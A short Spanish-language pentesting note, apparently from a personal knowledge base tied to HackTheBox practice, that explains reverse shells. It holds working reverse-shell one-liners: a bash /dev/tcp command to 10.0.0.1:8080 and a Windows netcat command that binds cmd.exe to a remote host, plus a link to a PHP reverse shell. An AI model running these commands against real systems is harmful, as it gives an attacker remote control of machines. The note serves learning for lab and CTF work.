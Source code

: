 Es aquella que se obtiene cuando es la máquina víctima la que trata de establecer la conexión con nuestra máquina de atacante (que estaría en escucha). Es lo opuesto a una [[Bind shell]].

# Metodología

Si obtenemos una reverse shell mediante una web, tal vez se nos queda una tab del navegador cargando, para ello, podemos, desde la reverse shell mandarnos otra reverse shell y ponerla en segundo plano con `&`:

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 &
```

# Ejemplos

La mejor página para buscar reverse shells es [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

## Linux

### bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### php


## Windows

### nc64.exe

Utilizando el binario de netcat para windows x64 podemos mandarnos una reverse shell. Se utiliza en [[Archetype HTB]].

```powershell
.\nc64.exe -e cmd.exe <ip> <port>
```

Con el parámetro `-e` indicamos que queremos ejecutar un archivo al conectarnos, en este caso una cmd.